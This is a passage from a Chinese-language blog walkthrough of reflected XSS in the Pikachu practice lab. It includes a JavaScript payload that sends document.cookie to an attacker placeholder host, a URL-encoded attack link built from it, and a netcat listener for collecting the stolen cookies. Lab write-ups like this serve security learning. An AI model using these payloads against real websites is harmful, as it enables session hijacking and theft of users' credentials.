 `<script>alert("hello")</script>`简单弹个hello看下

![pikachu11](https://cdn.jsdelivr.net/gh/Zephyrccc/ImageHostingService/Blog/pikachu11.png)

可以看到内容被插入到页面了

![pikachu12](https://cdn.jsdelivr.net/gh/Zephyrccc/ImageHostingService/Blog/pikachu12.png)

删除get的message字段，刷新后hello消失，反射型xss

接下来构造的XSS的payload如下：

```html
<script>new Image().src="http://ip:port/cookie="+encodeURI(document.cookie);</script>
```

经过编码后的链接如下

```
http://ip/vul/xss/xss_reflected_get.php?message=%3Cscript%3Enew+Image%28%29.src%3D%22http%3A%2F%2Fip%3Aport%2Fcookie%3D%22%2BencodeURI%28document.cookie%29%3B%3C%2Fscript%3E&submit=submit#
```

vps开启监听

```shell
nc -lvvp 9999
```

模拟访问该链接

![pikachu13](https://cdn.jsdelivr.net/gh/Zephyrccc/ImageHostingService/Blog/pikachu13.png)

获取cookie成功

## 反射型XSS(post)

也是`<script>alert("hello")</script>`简单弹个hello看下

![pikachu14](https://cdn.jsdelivr.net/gh/Zephyrccc/ImageHostingService/Blog/pikachu14.png)

url无变化，post传参，用hackbar更清楚，删除message字段，刷新后hello消失，反射型xss

![pikachu15](https://cdn.jsdelivr.net/gh/Zephyrccc/ImageHostingService/Blog/pikachu15.png)

反射post型不方便直接构造链接进行攻击，这里手动将下面的payload输入进去

```html
<script>new Image().src="http://ip:port/cookie="+encodeURI(document.cookie);</script>
```

![pikachu16](https://cdn.jsdelivr.net/gh/Zephyrccc/ImageHostingService/Blog/pikachu16.png)

还是获得了cookie，看着有点乱，对应url解一下码即可

## 存储型XSS

就不弹窗了，直接开冲
